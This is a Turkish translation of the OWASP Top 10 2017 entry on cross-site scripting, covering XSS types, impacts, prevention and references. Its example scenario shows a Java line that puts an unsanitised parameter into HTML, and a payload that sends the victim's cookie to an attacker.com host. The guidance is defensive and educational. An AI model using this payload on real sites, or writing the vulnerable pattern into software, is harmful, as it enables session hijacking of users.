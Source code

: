 # A7:2017 Siteler Arası Betik Çalıştırma (XSS)

| Tehdit etkenleri/Saldırı vektörleri | Güvenlik zafiyeti           | Etkiler               |
| -- | -- | -- |
| Erişim Düzeyi : İstismar Edilebilirlik 3 | Yaygınlık 3 : Tespit Edilebilirlik 3 | Teknik 2 : İş |
| Otomatize araçlar XSS'in 3 türünü de tespit ve istismar edebilmektedir. Ayrıca ücretiz olarak erişilebilir istismar araçları da bulunmaktadır. | XSS OWASP İlk 10 içerisindeki en yaygın ikinci problemdir ve tüm uygulamaların yaklaşık üçte ikisinde görülmektedir. Otomatize araçlar, özellikle PHP, J2EE / JSP ve ASP.NET gibi olgun teknolojilerde otomatik olarak bazı XSS problemlerini bulabilmektedir. | Yansıtılmış ve DOM XSS için etki orta düzeyde ve depolanmış XSS için giriş bilgilerini ve oturumları çalma veya kurbana zararlı yazılım bulaştırma gibi kurbanın tarayıcısında uzaktan kod çalıştırmada olduğu gibi ciddi düzeydedir. |

## Uygulamam Açıklık İçeriyor Mu?

Genellikle kullanıcıların tarayıcılarını hedef alan XSS'in üç farklı türü bulunmaktadır:

* **Yansıtılmış XSS**: Uygulama veya API, HTML çıktısının bir parçası olarak doğrulanmamış veya sterilize edilmemiş kullanıcı girdisi içermektedir. Başarılı bir saldırı saldırganın kurbanın tarayıcısında istediği HTML veya JavaScript kodunu çalıştırmasına izin vermektedir. Genellikle, kullanıcının zararlı Watering Hole web sayfaları, reklamlar veya benzerleri gibi saldırgan tarafından kontrol edilen bir sayfaya işaret eden kötücül bir bağlantı ile etkileşime geçmesi gerekmektedir.
* **Depolanmış XSS**: Uygulama veya API başka bir kullanıcı veya bir yönetici tarafından daha sonra görüntülenecek sterilize edilmemiş bir kullanıcı girdisini saklamaktadır. Depolanmış XSS genellikle yüksek veya kritik bir bulgu olarak değerlendirilmektedir.
* **DOM XSS**: Bir sayfa üzerinde saldırgan tarafından kontrol edilebilen veriyi dinamik olarak ekleyen JavaScript çerçeveleri, tek sayfa uygulamaları ve API'ler DOM XSS zafiyeti içermektedir. İdeal olarak, uygulama saldırgan tarafından kontrol edilen veriyi güvensiz JavaScript API'lerine yollamayacaktır.

Sıradan XSS saldırıları oturum çalma, hesap ele geçirme, MFA atlatma, DOM nod değiştirme veya bozma (trojan giriş panelleri gibi), zararlı yazılım indirme, klavye kaydetme ve diğer istemci taraflı saldırılar gibi kullanıcının tarayıcısına karşı yapılan saldırılardır.

## Nasıl Önlenir

XSS açıklığının önlenmesi güvenilmeyen verinin aktif tarayıcı içeriğinden ayırılmasını gerektirmektedir. Bu aşağıdakiler aracılığıyla yapılabilmektedir:

* Ruby on Rails, React JS gibi tasarımsal olarak XSS'i kendiliğinden sterilize eden çerçevelerin kullanımı. Her bir çerçevenin XSS koruma limitleri öğrenilmeli ve kapsamları dışında kalan kullanım örneklerinin üstesinden gelinmelidir.
* HTML çıktısında yer aldığı bağlama göre (body, attribute, JavaScript, CSS veya URL) güvenilmeyen HTTP isteği girdilerinin sterilize edilmesi Yansıtılmış ve Depolanmış XSS açıklıklarını çözecektir. [OWASP Kopya Kağıdı: XSS Korumaları](https://wiki.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) gerekli veri sterilizasyon teknikleri ile ilgili detayları içermektedir.
* İstemci tarafındaki tarayıcı dokümanı değiştirilirken bağlama duyarlı kodlamanın kullanılması DOM XSS açıklığına karşı koruma sağlamaktadır. Bu durum kaçınılmaz olduğunda, OWASP Kopya Kağıdı: DOM tabanlı XSS Koruması isimli dokümanda belirtildiği gibi bağlama duyarlı strelizasyon teknikleri tarayıcı API'lerine uygulanabilir.
* XSS'e karşı derinlemesine savunma kontrolü olarak bir [İçerik Güvenlik Politikası'nın (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) kullanılması. Eğer iç dosya ekleme(örn. dizin aşımı veya izin verilen içerik teslim ağlarından zafiyet içeren kütüphaneler) aracılığıyla zararlı kodun eklenmesine yol açabilecek başka bir açıklık bulunmuyorsa, etkili olacaktır.

## Örnek Saldırı Senaryoları

**Senaryo #1**: Uygulama doğrulama veya sterilizasyon olmadan aşağıdaki HTML parçasının oluşturulmasında güvenilmeyen veriyi kullanmaktadır.

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
Saldırgan tarayıcısında 'CC' parametresini aşağıdaki gibi değiştirmektedir:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Bu saldırı kurbanın oturum ID değerinin saldırganın sitesine yollanmasına yol açmakta, bu durum da saldırganın kullanıcının mevcut oturumunu ele geçirmesine izin vermektedir.

**Not**: Saldırganlar uygulamada kullanılacak herhangi bir otomatize Siteler Arası İstek Sahteciliği (CSRF) korumasını atlatmak için XSS açıklığını kullanabilmektedir.

## Kaynaklar

### OWASP

* [OWASP Proaktif Kontroller: Verinin Kodlanması](https://wiki.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proaktif Kontroller: Verinin Doğrulanması](https://wiki.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Uygulama Güvenliği Doğrulama Standardı: V5](https://wiki.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Test Rehberi: Yansıtılmış XSS Testleri](https://wiki.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Test Rehberi: Depolanmış XSS Testleri](https://wiki.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Test Rehberi: DOM XSS Testleri](https://wiki.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Kopya Kağıdı: XSS Önlemleri](https://wiki.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Kopya Kağıdı: DOM tabanlı XSS Önlemleri](https://wiki.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Kopya Kağıdı: XSS Filtre Atlatma](https://wiki.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Projesi](https://wiki.owasp.org/index.php/OWASP_Java_Encoder_Project)

### Dış Kaynaklar

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
